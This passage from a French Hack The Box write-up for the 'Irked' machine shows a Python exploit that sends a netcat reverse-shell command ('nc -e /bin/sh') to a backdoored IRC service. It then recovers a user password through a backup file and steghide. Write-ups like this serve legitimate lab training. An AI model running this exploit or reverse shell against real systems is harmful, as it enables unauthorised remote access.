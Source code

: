             HOST = sys.argv[1]
            PORT = sys.argv[2]

            # You will need to make a netcat to do the reverse shell.
            # And it's something optional.
    except IndexError as e:
            sys.exit(e)

    CMDS = "nc -e /bin/sh 127.0.0.1 1234" # Change this.

    def ArgumentTest():
            ServiceDown = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            ServiceDown.connect((str(HOST), int(PORT)))
            ServiceDown.send("AB;" + CMDS + "\n")
            ServiceDown.recv(1024).decode()

    if __name__ == "__main__":
            ArgumentTest()
            
N'oubliez pas de modifier l'adresse IP dans la variable **CMDS** par défaut c'est l'adresse de loopback. L'utilisation est très simple.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/05/7/1549213189-capture-du-2019-02-03-17-59-40.png)](https://hackthebox.eu/)

Voilà nous un shell. Attention il faut d'abord écouter un port et faut que le port soit identique dans le script que j'ai créé. Donc l'accès initial était très simple.

    ircd@irked:/home/djmardov/Documents$ ls -alv
    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
    
Nous avons un fichier backup allons lire ça.

    ircd@irked:/home/djmardov/Documents$ cat .backup
    cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSs
  
Après avoir cherché pendant des heures, j'ai enfin trouvé ce mot de passe correspondait simplement à l'image sur le serveur HTTP c'était de la stéganographie.

    root@Computer:/home/seyptoo/Bureau# steghide extract -sf index.jpeg
    Entrez la passphrase: 
    riture des donns extraites dans "pass.txt".
    root@Computer:/home/seyptoo/Bureau# cat pass.txt 
    Kab6h+m+bbp2J:HG

Nous avons enfin accès à l'utilisateur. Utilisons la commande su pour se connecter ou bien se connecter en SSH (Recommandé) pour ne pas avoir d'exclusion de shell etc..
